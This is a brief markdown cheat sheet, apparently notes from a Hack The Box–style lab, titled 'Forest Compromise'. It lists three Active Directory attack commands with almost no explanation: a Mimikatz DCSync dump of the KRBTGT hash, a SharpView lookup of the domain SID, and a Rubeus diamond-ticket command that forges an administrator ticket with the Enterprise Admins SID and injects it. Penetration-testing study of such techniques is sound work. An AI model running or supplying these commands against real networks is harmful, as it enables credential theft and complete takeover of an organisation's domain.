 # Forest Compromise

Get the hash of the KRBTGT user

```sh
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:SDE\krbtgt" exit
```

Get the SID of domain

```shell
sharpview -- Get-DomainSid -Domain inlanefreight.local -t 120
```

With Rubeus execute a diamond attack

```shell
inline-execute-assembly /home/htb-ac-8414/Rubeus.exe "diamond /tgtdeleg /ticketuser:administrator /ticketuserid:500 /groups:519 /sids:S-1-5-21-1091722548-1143476209-2285759316-519 /krbkey:161ca21b478565107a337eab8626f584c4cbe4d724e52f0ed7ff4c35234b7669 /nowrap /ptt"
```

